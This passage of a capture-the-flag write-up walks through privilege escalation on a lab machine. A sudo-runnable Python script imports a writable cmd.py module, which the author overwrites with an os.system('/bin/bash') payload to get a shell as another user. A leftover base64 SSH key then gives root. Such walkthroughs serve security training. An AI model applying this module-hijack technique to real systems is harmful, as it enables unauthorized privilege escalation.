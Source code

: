 We see that `/home/mat/scripts/will_script.py` can be run as will on a wild card. Checking `will_script.py` ...

```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
	print("Invalid command!")
	exit()

os.system(cmd)
```

... we see that the `cmd` module is imported. We also have `cmd.py` in the same directory so we also check it out.

```python
def get_command(num):
	if(num == "1"):
		return "ls -lah"
	if(num == "2"):
		return "id"
	if(num == "3"):
		return "cat /etc/passwd"
```

So `cmd.py` essentially whitelists a few commands we can run.

```sh
mat@watcher:~/scripts$ ls -l
total 8
-rw-r--r-- 1 mat  mat  133 Dec  3  2020 cmd.py
-rw-r--r-- 1 will will 208 Dec  3  2020 will_script.py
```

We can't change `will_script.py` since it's owned by will and we don't have writing permission. However, we can write to `cmd.py` which is imported by `will_script.py`. We can simply replace its content with a shell ...

```python
import os

os.system('/bin/bash')
```

... and run the allowed `sudo` command as will to get a shell as will.

```sh
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *
```

After grabbing flag 6, we can check our `sudo` privileges but running `sudo` requires a password this time so no luck there.

Looking in `/opt`, we have the directory `/backups`, inside which is the file `key.b64`. Base64-decoding the file gives us what looks like an SSH key. We can use this key to SSH in as root and grab the final flag, rooting the machine.
